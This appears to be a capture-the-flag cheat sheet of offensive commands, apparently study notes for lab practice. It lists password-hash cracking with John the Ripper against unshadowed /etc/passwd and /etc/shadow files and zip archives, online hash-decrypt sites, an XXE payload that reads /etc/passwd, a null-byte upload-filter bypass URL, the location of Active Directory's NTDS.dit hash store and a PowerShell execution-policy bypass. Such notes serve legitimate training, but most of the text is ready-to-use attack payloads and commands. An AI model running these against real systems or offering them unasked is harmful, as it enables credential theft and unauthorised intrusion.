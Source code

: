 ### /etc/passwd hashes
- `unshadow [path to passwd] [path to shadow] > unshadowed.txt`
- `john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt unshadowed.txt`

### Single cracking based on username:
- hash.txt: `username:hash`
- `john --single --format=[format] [path to file]`

### Password protected zip files (same with rar)
- `zip2john file.zip > hash.txt`
- `john --wordlist=[wordlist] hash.txt`

## Password cracking websites
- https://crackstation.net/
- https://md5decrypt.net/en/
- https://hashes.com/en/decrypt/hash

## cURL
- get request: `curl http://10.10.171.117:8081/ctf/get`
- post request with data in body: `curl -X POST --data "flag_please" http://10.10.171.117:8081/ctf/post`
- post request with headers: `curl -X POST -F 'name=linuxize' -F 'email=linuxize@example.com' https://example.com/contact.php`

## XML External Entity (XXE)
XXE Test:
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
    <to>0x47root</to>
    <from>was</from>
    <heading>here</heading>
    <body>hihi ;)</body>
</note>
```
Output file contents:
```XML
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```
## Using Null Byte for blocked file extensions
- Null Byte: `%00`, URL encoded: `%2500`
- if only .md files can be uploaded: `http://10.10.250.194/ftp/package.json.bak%2500.md`

## Active Directory
- Location of NTDS.dit (holds DC info and password hashes): `%SystemRoot%\NTDS`
- From Windows terminal to Powershell: `powershell -ep bypass`
